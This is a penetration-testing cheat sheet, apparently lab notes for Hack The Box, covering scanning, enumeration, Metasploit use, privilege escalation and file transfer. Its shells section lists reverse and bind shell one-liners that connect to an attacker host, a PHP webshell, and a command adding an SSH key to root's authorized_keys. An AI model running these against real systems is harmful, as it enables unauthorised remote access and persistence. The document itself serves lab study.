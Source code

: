 # Basics - Cheat Sheet

**tags**: #cheatsheet #pentest #offensif #htb #réseau #shell #privilege_escalation

---

## Basic Tools

| Command                          | Description                           |
|----------------------------------|---------------------------------------|
| `sudo openvpn user.ovpn`        | Connect to VPN                        |
| `ifconfig` / `ip a`             | Show IP address                       |
| `netstat -rn`                   | Show accessible networks via VPN      |
| `ssh user@10.10.10.10`          | SSH to remote server                  |
| `ftp 10.129.42.253`             | FTP to remote server                  |

---

## tmux

| Command                     | Description                      |
|-----------------------------|----------------------------------|
| `tmux`                     | Start tmux                       |
| `ctrl+b`                   | Default prefix                   |
| `prefix c`                 | New window                       |
| `prefix 1`                 | Switch to window 1               |
| `prefix Shift+%`           | Split vertically                 |
| `prefix Shift+"`           | Split horizontally               |
| `prefix →`                 | Switch to right pane             |

---

## Vim

| Command         | Description             |
|-----------------|-------------------------|
| `vim file`      | Open file               |
| `esc + i`       | Insert mode             |
| `esc`           | Normal mode             |
| `x`             | Cut character           |
| `dw`            | Cut word                |
| `dd`            | Cut full line           |
| `yw`            | Copy word               |
| `yy`            | Copy full line          |
| `p`             | Paste                   |
| `:1`            | Go to line 1            |
| `:w`            | Save file               |
| `:q`            | Quit                    |
| `:q!`           | Quit without saving     |
| `:wq`           | Save and quit           |

---

## Service Scanning

| Command                                                | Description                    |
|--------------------------------------------------------|--------------------------------|
| `nmap IP`                                              | Basic scan                     |
| `nmap -sV -sC -p- IP`                                  | Script scan                    |
| `locate scripts/citrix`                                | List nmap scripts              |
| `nmap --script smb-os-discovery.nse -p445 IP`          | Run specific nmap script       |
| `netcat IP 22`                                         | Banner grabbing                |
| `smbclient -N -L \\\\IP`                               | List SMB shares                |
| `smbclient \\\\IP\\users`                              | Connect to SMB share           |
| `snmpwalk -v 2c -c public IP OID`                      | SNMP scan                      |
| `onesixtyone -c dict.txt IP`                           | Brute force SNMP string        |

---

## Web Enumeration

| Command                                                                 | Description                 |
|--------------------------------------------------------------------------|-----------------------------|
| `gobuster dir -u http://IP/ -w /usr/share/dirb/wordlists/common.txt`     | Directory scan              |
| `gobuster dns -d domain -w /usr/share/SecLists/.../namelist.txt`         | Subdomain scan              |
| `curl -IL https://domain`                                               | Grab HTTP headers           |
| `whatweb IP`                                                            | Web server info             |
| `curl IP/robots.txt`                                                   | Check `robots.txt`          |
| `Ctrl+U` (Firefox)                                                     | View page source            |

---

## Public Exploits

| Command                                       | Description                   |
|-----------------------------------------------|-------------------------------|
| `searchsploit openssh 7.2`                   | Search public exploits        |
| `msfconsole`                                 | Start Metasploit              |
| `search exploit eternalblue`                 | Search exploits in MSF        |
| `use exploit/windows/smb/ms17_010_psexec`    | Use MSF module                |
| `show options`                               | Show MSF module options       |
| `set RHOSTS IP`                              | Set target                    |
| `check`                                      | Check vulnerability           |
| `exploit`                                    | Launch exploit                |

---

## Using Shells

| Command                                                        | Description                      |
|----------------------------------------------------------------|----------------------------------|
| `nc -lvnp 1234`                                                | Start listener                   |
| `bash -c 'bash -i >& /dev/tcp/IP/1234 0>&1'`                   | Reverse shell                    |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 1234 >/tmp/f` | Reverse shell (variant) |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` | Bind shell               |
| `nc IP 1234`                                                   | Connect to bind shell            |
| `python -c 'import pty; pty.spawn("/bin/bash")'`               | TTY upgrade                      |
| `Ctrl+Z → stty raw -echo → fg`                                 | TTY upgrade (manual)             |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create PHP webshell          |
| `curl http://IP/shell.php?cmd=id`                              | Use uploaded webshell            |

---

## Privilege Escalation

| Command                                       | Description                          |
|-----------------------------------------------|---------------------:-----------------|
| `./linpeas.sh`                                | Run linPEAS                          |
| `sudo -l`                                     | List sudo privileges                 |
| `sudo -u user command`                        | Run as another user                  |
| `sudo su -`                                   | Become root                          |
| `sudo su user -`                              | Become another user                  |
| `ssh-keygen -f key`                           | Generate SSH key                     |
| `echo "ssh-rsa ... user@host" >> /root/.ssh/authorized_keys` | Add pubkey to authorized_keys |
| `ssh root@IP -i key`                          | SSH using private key                |

---

## Transferring Files

| Command                                                        | Description                            |
|----------------------------------------------------------------|----------------------------------------|
| `python3 -m http.server 8000`                                  | Start local web server                 |
| `wget http://10.10.14.1:8000/file.sh`                          | Download via wget                      |
| `curl http://10.10.14.1:8000/file.sh -o file.sh`               | Download via curl                      |
| `scp file user@remote:/tmp/file`                               | Transfer via SCP                       |
| `base64 file -w 0`                                              | Encode to base64                       |
| `echo BASE64STRING | base64 -d > file`                         | Decode from base64                     |
| `md5sum file`                                                  | Verify integrity                       |

---

